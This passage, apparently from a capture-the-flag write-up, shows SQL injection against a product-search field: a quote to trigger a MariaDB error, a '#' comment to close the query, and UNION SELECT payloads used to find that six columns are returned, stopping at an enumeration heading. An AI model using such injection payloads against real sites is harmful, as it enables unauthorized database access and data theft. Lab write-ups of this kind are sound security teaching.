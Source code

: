     productName=Asus
    

When I add a `'` to get `productName=Asus'`, I see the following in the body
of the returned page:

    
    
    <!-- Latest Products -->
    <section>
        <h4>Products</h4>
        <div class="table-wrapper">
            <table border="1" cellpadding="10">
                <thead>
                    <tr>
                        <th>Id</th>
                        <th>Name</th>
                        <th>Quantity</th>
                        <th>Category</th>
                        <th>Price</th>
                    </tr>
                </thead>
                <tbody>
                    Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Asus'''  at line 1                     </tbody>
            </table>
        </div>
    

I can make the query good again with a comment, `productName=Asus'#`, which
returns a `<tbody>` of:

    
    
    <td>No Products Found</td><td> </td><td> </td><td> </td><td> </td>
    

#### Find Number of Columns

Next I’ll try to do a union injection, and I’ll need to figure out how many
columns are returned. I’ll start with `productName=Asus' union select 1#`, and
it returns:

    
    
    Error: SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of column
    

Very nice / sloppy to leave the error messages in. I’ll add columns to my
select until I get to `productName=Asus' UNION select 1,2,3,4,5,6#`, when it
returns:

    
    
    <tr><td>1</td><td>2</td><td>3</td><td>4</td><td>5</td><td>6</td></tr>
    

#### Enumerate
